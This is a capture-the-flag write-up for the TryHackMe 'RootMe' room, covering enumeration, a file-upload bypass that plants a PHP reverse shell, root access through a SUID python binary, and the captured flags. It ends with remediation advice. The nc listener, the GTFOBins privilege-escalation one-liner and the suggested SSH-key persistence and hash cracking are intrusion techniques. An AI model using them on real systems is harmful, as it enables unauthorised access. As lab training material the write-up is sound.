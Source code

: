 # Lab Report - RootMe


# Overview 
- **Difficulty**: Easy.
- **Platform**: Linux
- **Link**: https://tryhackme.com/room/rrootme
- **Tags**: #enumeration #shell #privesc

## Challenge Description 
> **A ctf for beginners, can you root me?**

## Resolution Summary 
> **We Started by performing active reconnaissance using Nmap on the target IP, we found an HTTP website running on port 80. Then we used Gobuster to find hidden directories, we uncovered a hidden upload web page. After testing multiple PHP extensions, we found one that is allowed and uploaded a reverse shell. Upon getting a shell, we exploited the python binary as it had its SUID bit set and it was owned by root. Finally we got root access and retrieved the flags.** 

# Information Gathering 
## Active Reconnaissance
- **We attempted to discover running services on the given IP by running an Nmap scan, we scanned for services versions as well (may reveal usable exploits).**
```bash
sudo nmap -sV 10.10.185.141
```
	- Note : Adding the -p- flag did not lead to other results.

- **We found 2 running services, an SSH (22) server and an HTTP server (80).**
```bash
#Results 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP (80)
---
- **Next, we focused on the HTTP server running on port 80.** 
- **First, we took a look at the Page Source. We saw that the web server was running a script to display the text on the homepage. (dead end)**

- **After that, we ran `GoBuster` to find hidden directories.** 
```bash
gobuster dir -u 10.10.185.141 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
``
- **We uncover the following directories:** 
```bash
/uploads              (Status: 301) [Size: 316] [--> http://10.10.185.141/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.185.141/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.185.141/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.185.141/panel/]

```

- **Upon further investigation, the /panel directory lead us to an upload web page.** 
# Exploitation 
- **Given the upload web page found, we will try to upload a reverse shell on the web server.** 
- **We used the PHP reverse shell available on Kali machines (from PentestMonkey) and set up a listener with netcat** 
```bash
nc -lnvp 1234
```

- **The server seemed to have filters. Therefore, we tried other PHP extensions.**
- **.php5 worked fine and we got a reverse shell.**

# Privilege Escalation 
- **Once we obtain a webshell, we listed files that had the SUID bit set (we may list files that are owned by root as well).**
- **We found that python2.7 does, hence we looked for an exploit on GTFOBins.**
- **Then we used:** 
```bash
python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")' 
```

- **Which allowed us to gain root access and get the flags:** 
```bash 
find -type f -name "user.txt"
cat ./user.txt

find -type f -name "root.txt"
cat ./root.txt
```
# Trophy 
> **User.txt**
> **THM{y0u_g0t_a_sh3ll}** 

> **Root.txt**
> **THM{pr1v1l3g3_3sc4l4t10n}**

# Extra Mile 
 - **Create an SSH key pair, add your public key to the authorized_keys files in ./ubuntu, gain access to the SSH server.**
 - **Crack the /etc/passwd hashes with JTR or Hashcat (then use credential on the SSH server).**

# Remediation Summary
 - **For the Upload web page:** It should have a whitelist instead of a blacklist + Ban the use of particular functions (like system()).
- **Files owned by root:** Binaries like python must not have SUID bit set.

